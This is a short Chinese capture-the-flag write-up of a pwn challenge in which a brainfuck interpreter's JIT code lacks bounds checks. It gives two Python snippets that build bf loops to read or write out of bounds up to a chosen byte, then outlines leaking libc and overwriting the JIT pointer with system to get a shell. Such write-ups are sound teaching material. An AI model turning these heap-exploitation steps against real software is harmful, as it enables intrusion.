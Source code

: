 # 最强大脑

brainfuck的二进制解释器，在`[]`内的代码运行超过0xf次后，会生成jit代码，而jit代码缺失边界检查，所以生成jit后可以进行堆的前向和后向溢出。

我觉得这道题构造的时候比较难想的一点是在越界读写的时候怎么让bf的循环停下来，因为bf的`[]`循环的停止条件是当前指针指向的值是否是0，而如果我想越界读写的话，必然要把指针向前/向后移动，而堆里面的0非常多，为了让循环继续，只好修改当前0内存的值为非0，这样堆内存受到了破坏，就难免出现堆的报错。所以构造了以下两个小case，在恢复当前内存的值后再将指针向前/向后移动，可以做到在某特定字节后停止读写。

读到某特定字节停止：

```
findchr=0x80
code+=b"+"*(0x100-findchr)
print(len(code))
code+=b"["
code+=b"-"*(0x100-findchr)
code+=b"<."
code+=b"+"*(0x100-findchr)
code+=b"]"
```

写到某字节停止：

```
eof=0x0d
code+=b"+"*(0x100-eof)
code+=b"["
code+=b"-"*(0x100-eof)
code+=b">.," 
code+=b"+"*(0x100-eof)
code+=b"]"
```

越界读泄露libc，越界写覆盖jit的地址为system，此时的rdi正好是bf的栈，在栈上布置好/bin/sh拿shell。

这题拿了一血，就还挺开心。